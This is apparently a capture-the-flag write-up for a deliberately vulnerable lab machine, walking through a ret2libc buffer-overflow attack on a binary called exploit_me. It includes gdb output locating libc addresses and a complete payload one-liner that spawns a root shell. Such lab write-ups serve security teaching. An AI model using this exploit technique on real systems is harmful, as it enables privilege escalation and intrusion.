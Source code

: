 # Writeup 4 - Ret2LibC

## Writeups Map

![Imgur](https://i.imgur.com/io1rZpf.png)

## Summary

- [14.4 Ret2LibC](#144-ret2libc)

## Exploitation

### 14.4 Ret2LibC

> All the following steps can lead here:
>
> - [12. Getting SSH access as zaz](./Writeup1.md#12-getting-ssh-access-as-zaz)

Here we'll use the ret-to-libc technique to change the binary's execution flow by re-using existing executable code from the C standard library shared object that is already loaded and mapped into the program's virtual memory space. The return address will be overwritten with a memory address that points to the system() libc function, and we'll pass /bin/sh as the argument in order to spawn a shell. 

We need to find the addresses of system(), exit() and /bin/sh :

```text
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) info proc map
process 2160
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
0xb7e2b000 0xb7e2c000     0x1000        0x0 
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
0xb7fd2000 0xb7fd5000     0x3000        0x0 
0xb7fda000 0xb7fdd000     0x3000        0x0 
0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

We've got all that we need. We can now craft our payload. Here's the general look:

payload = padding + address of system() + return address of system() + address of "/bin/sh"

In our case, we'll have (addresses in little-endian architecture):

```text
"A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"
```

Let's run it :

```text
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
# whoami
root
```
